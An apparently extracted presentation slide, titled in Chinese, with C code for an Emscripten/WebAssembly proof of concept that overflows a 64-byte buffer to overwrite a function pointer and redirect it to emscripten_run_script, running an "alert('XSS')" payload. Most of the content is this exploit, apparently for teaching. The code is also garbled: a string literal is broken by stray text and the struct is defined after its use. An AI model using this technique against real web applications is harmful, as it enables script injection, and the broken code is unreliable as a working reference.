

# 通过函数间接调用来实现跨站点脚本攻击
int main(void) {
	Comms comms;
	comms.out = &communicate;
	printf("&communicate: %p\n", &communicate);
	printf("&emscripten_run_script: %p\n", 	&emscripten_run_script); // 0x2
	char *payload = "alert('XSS');
 	lets eval work
	" "
	" "
	" "
	" "
	"\x40\x00"
	"\x02\x00\x00\x00";
	memcpy(comms.msg, payload, 72);
	trigger(&comms);return 0;}
typedef struct Comms {
	char msg[64];
	uint16_t msg_len;
	void (*out)(const char *);
	} Comms;
void trigger(Comms *comms) {
	comms->out(comms->msg);}
void communicate(const char *msg) {
	printf("%s", msg);}